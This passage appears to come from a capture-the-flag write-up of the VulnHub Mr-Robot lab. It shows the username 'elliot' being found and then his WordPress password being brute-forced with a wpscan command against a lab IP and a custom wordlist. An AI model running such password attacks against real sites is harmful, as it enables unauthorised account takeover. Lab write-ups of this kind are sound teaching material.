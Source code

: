 And we find `elliot` as a valid username. Indeed:

![elliot](/assets/img/vulnhub/linux/mr-robot/elliot.png)

##### Bruteforcing elliott password

With `wpscan`, we can try to find his password:

```bash
$ wpscan --url https://192.168.1.25/ --disable-tls-checks --password-attack wp-login -U elliot -P fsociety_filtered.dic -t 100 
```

And we succeed:

![credentials.png](/assets/img/vulnhub/linux/mr-robot/creds.png)
